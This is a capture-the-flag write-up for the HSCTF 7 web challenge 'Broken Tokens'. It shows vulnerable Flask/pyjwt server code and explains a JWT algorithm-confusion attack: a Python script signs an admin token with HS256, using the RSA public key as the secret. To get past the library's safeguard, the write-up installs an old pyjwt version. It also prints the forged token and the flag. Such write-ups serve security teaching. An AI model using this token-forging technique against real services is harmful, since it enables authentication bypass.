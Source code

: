 ```yaml
---
title: Broken Tokens
date: 2020-06-06
tags: web
ctf: HSCTF 7
slug: /ctf-writeups/broken-tokens
---
```

# Broken Tokens

**Tags:** web

## Problem
```
I made a login page, is it really secure?

https://broken-tokens.web.hsctf.com/

Note: If you receive an "Internal Server Error" (HTTP Status Code 500), that means that your cookie is incorrect.

Author: hmmm
```

The program also provided [main.py](./files/main.py) which appeared to be the code on the server.

## Solution
The page greets us with a web portal login, and a public key file ([publickey.pem](./files/publickey.pem)). Upon inspection, the login seemed to use server sided authentication. Trying to login with random credentials showed us a page stating ```Logged in as guest``` and left a cookie named ```auth```:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhdXRoIjoiZ3Vlc3QifQ.e3UX6vGuTGHWouov4s5HuKn6B5zbe0ZjxwHCB_OQlX_TcntJuj89x0RDi8gQi88TMoXSFN-qnFUQxillB_nD5ErrVZKL8HI5Ah_iQBX1xfu097H2xT3LAhDEceq4HDEQY-iC4TVSxMGM0AS_ItsVLBIrxk8tapcANvCW_KnO3mEFwfQOD64YHtapSZJ-kKjdN19lgdI_g-2nNI83P6TlgLtZ8vo1BB1zt_8b4UECSiPb67YCsrCYIIsABq5UyxSwgUpZsM6oxW0k1c4NbaUTnUWURG2qWDVw56svRQETU3YjO59AMj67n9r9Y9NJ9FBlpHQ60Ck-mfL5JcmFE9sgVw
```

The format appears to be a JWT token. Using a [web JWT tool](https://jwt.io/), we can decode the token to find more information. The header contains:
```
{
  "typ": "JWT",
  "alg": "RS256"
}
```
and there is a payload:
```
{
  "auth": "guest"
}
```

We need to create a modified JWT token that contained ```"auth": "admin"``` to gain access to the admin page, which contains the flag. The JWT token is signed using the RS256 algorithm, which is an asymmetric algorithm that uses a private and public keypair. Without any other vulnerabilities, we would need to bruteforce the private key in order to sign a modified token, which is practically impossible. Looking at the server code ([main.py](./files/main.py)), we can find some information about how the token is validated:

```
import jwt

with open("publickey.pem", "r") as f:
	PUBLIC_KEY = f.read()

def index():
	else:
		auth = request.cookies.get("auth")
		if auth is None:
			logged_in = False
			admin = False
		else:
			logged_in = True
			admin = jwt.decode(auth, PUBLIC_KEY)["auth"] == "admin"
		resp = make_response(
			render_template("index.html", logged_in=logged_in, admin=admin, flag=FLAG)
		)
	return resp
```
The server decodes the JWT token with the following line:
```
admin = jwt.decode(auth, PUBLIC_KEY)["auth"] == "admin"
```

Looking at the [pyjwt API reference](https://pyjwt.readthedocs.io/en/latest/api.html), we note that the implementation of jwt.decode() did not specify an algorithm. This means that we can attempt to create a JWT token using a different algorithm, such as HS256, which is a symmetric algorithm that uses a secret key to sign the JWT. pyjwt would then use the ```PUBLIC_KEY``` as the secret key. Since we know what ```PUBLIC_KEY``` is, we can easily create a valid token.

Copying the usage of pyjwt and opening publickey.pem in the exact same method (to prevent weird errors with newlines): ([brokentokens.py](./files/brokentokens.py))
```
import jwt

f = open("publickey.pem", "r")
PUBLIC_KEY = f.read()

key = jwt.encode({"auth": "admin"}, PUBLIC_KEY, algorithm="HS256")
print(key)
```

When attempting to run the code, we get an error:
```
"File "C:\Python38\lib\site-packages\jwt\algorithms.py", line 150, in prepare_key
    raise InvalidKeyError(
jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret."
```

It seems like newer versions of pyjwt prevent signing JWT tokens with HMAC keys that are formatted as an RSA key. We can bypass this by installing an older version of pyjwt (<=0.4.3) where the exception was not implemented yet. After ```pip install pyjwt==0.4.3```, we get our new JWT token:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.MfoiS9XkQHMOw2Y6uQJrw0gM2NUfGYM-1Sz-SzKvad4
```

When we swap our cookie with the new JWT token, we are now logged in as admin and are greeted with the flag!

```
Logged in as admin
The flag is flag{1n53cur3_tok3n5_5474212}
```

**Flag:** ```flag{1n53cur3_tok3n5_5474212}```